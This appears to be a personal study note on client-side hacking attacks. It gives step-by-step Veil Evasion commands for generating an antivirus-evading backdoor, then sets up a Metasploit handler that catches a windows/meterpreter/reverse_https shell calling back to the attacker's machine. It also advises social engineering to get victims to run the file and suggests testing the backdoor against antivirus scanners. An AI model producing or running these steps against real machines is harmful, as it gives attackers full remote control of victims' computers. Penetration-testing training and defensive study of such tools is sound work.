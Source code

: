                 systemctl nexposeconsole.service disable
                service postgresql stop
                cd /opt/rapid7/nexpose/nsc
                ./nsc.sh

# Client Side Attacks -> deliver and use a backdoor

* Use if server side attacks fails
* If IP is probably useless (different network, hidden behind a router, ...)
* Require user interaction
* Social engineering can be very useful
* Information gathering is vital

## Use Vell - to generate an undetectable (by antivirus) backdoor

* Backdoor = file that gives us full control over the machine that it gets executed on
* https://github.com/Veil-Framework/Veil
* 2 tools:
        * Evasion: tool that generates backdoor (primary tool) => use Evasion
        * Ordnance: tool that generates payload (secondary tool)
* Different type of payload
        * meterpreter: allow to migrate between system process so we can have the payload/backdoor running from a normal process like Explorer => very hard to detect and does not leave a lot of footprints
        * reverse connection: allows to bypass firewall by asking the target computer to connect to the attacker computer

### Generating an undetectable backdoor

        ./Veil.py
        update
        use Evasion
        use 15
        set LHOST <attacker IP>
        set LPORT 8080
        set PROCESSORS 1 => to bypass antivirus more thoroughly
        set SLEEP 6 => idem
        generate

* Check if backdoor is detected by antivirus => https://nodistribute.com

### Open port on attacker for reverse payload to work

* We use metasploit to listen to incoming connection (same people coded metasploit and Veil)
        
        msfconsole
        use exploit/multi/handler => module that listen to connection
        show options
        set payload windows/meterpreter/reverse_https => should correspond with the payload used in the backdoor
        set LHOST 10.0.2.15
        set LPORT 8080
        exploit
